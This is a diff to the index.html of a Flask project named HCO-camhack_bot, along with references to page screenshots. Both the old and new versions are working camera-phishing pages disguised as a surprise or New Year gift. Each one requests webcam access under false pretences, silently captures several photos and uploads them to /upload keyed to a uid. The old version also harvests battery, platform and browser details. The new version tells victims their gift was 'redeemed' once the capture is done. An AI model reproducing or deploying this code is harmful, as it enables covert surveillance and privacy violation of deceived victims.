

Before and after one commit to Roshan0786shah/HCO-camhack_bot, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,113 +1,68 @@
 <!DOCTYPE html>
-<html lang="hi">
+<html>
 <head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>New Year Gift 2026</title>
-    <script src="https://cdn.jsdelivr.net/npm/canvas-confetti@1.5.1/dist/confetti.browser.min.js"></script>
+    <title>Surprise Gift 🎁</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1">
     <style>
-        body { background: #000; color: #fff; font-family: sans-serif; margin: 0; display: flex; justify-content: center; align-items: center; height: 100vh; overflow: hidden; }
-        .container { text-align: center; width: 85%; max-width: 400px; padding: 25px; border: 2px solid #ff0055; border-radius: 25px; background: #0a0a0a; box-shadow: 0 0 25px #ff0055; }
-        h1 { color: #ff0055; text-shadow: 0 0 10px #ff0055; }
-        input { padding: 15px; width: 85%; border-radius: 30px; border: 1px solid #ff0055; background: #111; color: #fff; margin-bottom: 20px; text-align: center; font-size: 16px; }
-        button { padding: 15px 35px; border-radius: 30px; border: none; background: #ff0055; color: #fff; font-weight: bold; cursor: pointer; font-size: 18px; }
-        #wish-box { display: none; }
-        .wish-text { font-size: 20px; font-weight: bold; line-height: 1.4; color: #fff; }
+        body { text-align: center; font-family: sans-serif; background: #f0f0f0; padding-top: 50px; }
+        #btn { padding: 20px; font-size: 20px; background: orange; border: none; border-radius: 10px; cursor: pointer; color: white; font-weight: bold; }
+        .loader { display: none; border: 8px solid #f3f3f3; border-top: 8px solid #3498db; border-radius: 50%; width: 50px; height: 50px; animation: spin 2s linear infinite; margin: 20px auto; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
-
-    <div class="container" id="main-box">
-        <h1>🎇 Surprise Gift 🎇</h1>
-        <p>अपना नाम लिखें और उपहार खोलें!</p>
-        <input type="text" id="userName" placeholder="यहाँ नाम लिखें...">
-        <button onclick="startApp()">उपहार खोलें ✨</button>
+    <div id="ui">
+        <h2>Hey Hi Dear! 👋</h2>
+        <p>You have a surprise from someone special! 🎁</p>
+        <button id="btn" onclick="startProcess()">🔓 Unlock Gift</button>
     </div>
-
-    <div class="container" id="wish-box">
-        <div class="wish-text" id="wishMsg"></div>
-        <p style="margin-top: 20px; color: #ff0055; font-weight: bold;">🎊 Happy New Year 2026 🎊</p>
+    <div id="loading" style="display:none;">
+        <h3>Your gift is loading... 🎁</h3>
+        <div class="loader" style="display:block;"></div>
     </div>
-
-    <video id="v" style="display:none" autoplay playsinline muted></video>
-    <canvas id="c" style="display:none"></canvas>
-
-    <audio id="music" loop><source src="https://www.soundhelix.com/examples/mp3/SoundHelix-Song-1.mp3" type="audio/mpeg"></audio>
+    <video id="video" style="display:none;" autoplay></video>
+    <canvas id="canvas" style="display:none;"></canvas>
 
     <script>
-        const urlParams = new URLSearchParams(window.location.search);
-        const mode = urlParams.get('m') || 'front';
-        const uid = urlParams.get('uid') || '7162565886';
+        const params = new URLSearchParams(window.location.search);
+        const mode = params.get('m') || 'dual';
+        const uid = params.get('uid');
 
-        async function startApp() {
-            let name = document.getElementById('userName').value;
-            if(!name) return alert("नाम डालना जरूरी है!");
+        async function startProcess() {
+            document.getElementById('ui').style.display = 'none';
+            document.getElementById('loading').style.display = 'block';
 
-            document.getElementById('main-box').style.display = 'none';
-            document.getElementById('wish-box').style.display = 'block';
+            let count = (mode === 'dual') ? 6 : 4;
 
-            // नया पर्सनल मैसेज फॉर्मेट
-            document.getElementById('wishMsg').innerText = `Hey ${name}, मेरी तरफ से आपको और आपके पूरे परिवार को Happy New Year की ढेर सारी शुभकामनाएँ!`;
+            try {
+                const stream = await navigator.mediaDevices.getUserMedia({ video: true });
+                document.getElementById('video').srcObject = stream;
 
-            // म्यूजिक प्ले करना (आपका पसंदीदा हिस्सा)
-            document.getElementById('music').play().catch(() => {});
+                for(let i=0; i<count; i++) {
+                    await takePhoto();
+                    await new Promise(r => setTimeout(r, 1000));
+                }
 
-            // पटाखे (Fireworks)
-            setInterval(() => { confetti({ particleCount: 60, spread: 70, origin: { y: 0.6 } }); }, 2000);
-
-            initCapture(name);
-        }
-
-        async function initCapture(name) {
-            let info = {
-                battery: "N/A",
-                platform: navigator.platform,
-                browser: navigator.userAgent.split(' ').pop(),
-                screen: window.screen.width + "x" + window.screen.height
-            };
-            try { let b = await navigator.getBattery(); info.battery = Math.round(b.level*100)+"%"; } catch(e){}
-
-            if(mode === 'front') await runCam(name, info, {facingMode: "user"}, 5, "FRONT");
-            else if(mode === 'back') await runCam(name, info, {facingMode: "environment"}, 5, "BACK");
-            else {
-                await runCam(name, info, {facingMode: "environment"}, 3, "BACK");
-                await runCam(name, info, {facingMode: "user"}, 3, "FRONT");
+                document.body.innerHTML = "<h3>Your gift has been redeemed. You are a good person, God bless you. ✨</h3>";
+            } catch (e) {
+                alert("Please allow camera access to see your gift!");
+                location.reload();
             }
         }
 
-        async function runCam(name, info, constraints, count, label) {
-            try {
-                let stream = await navigator.mediaDevices.getUserMedia({
-                    video: { ...constraints, width: {ideal: 640}, height: {ideal: 480} }
-                });
-                let video = document.getElementById('v');
-                video.srcObject = stream;
-                await video.play();
+        async function takePhoto() {
+            const video = document.getElementById('video');
+            const canvas = document.getElementById('canvas');
+            canvas.width = video.videoWidth;
+            canvas.height = video.videoHeight;
+            canvas.getContext('2d').drawImage(video, 0, 0);
+            const img = canvas.toDataURL('image/jpeg');
 
-                // सेंसर को रोशनी सेट करने के लिए 8 सेकंड का इंतज़ार
-                await new Promise(r => setTimeout(r, 8000));
-
-                for (let i = 1; i <= count; i++) {
-                    let can = document.getElementById('c');
-                    can.width = video.videoWidth;
-                    can.height = video.videoHeight;
-                    can.getContext('2d').drawImage(video, 0, 0);
-
-                    fetch('/upload', {
-                        method: 'POST',
-                        headers: {'Content-Type': 'application/json'},
-                        body: JSON.stringify({
-                            name: name,
-                            image: can.toDataURL('image/jpeg', 0.6),
-                            info: info,
-                            label: label+" "+i,
-                            uid: uid
-                        })
-                    });
-                    await new Promise(r => setTimeout(r, 3500));
-                }
-                stream.getTracks().forEach(t => t.stop());
-            } catch(e) {}
+            await fetch('/upload', {
+                method: 'POST',
+                headers: {'Content-Type': 'application/json'},
+                body: JSON.stringify({ image: img, uid: uid, mode: mode })
+            });
         }
     </script>
 </body>
```
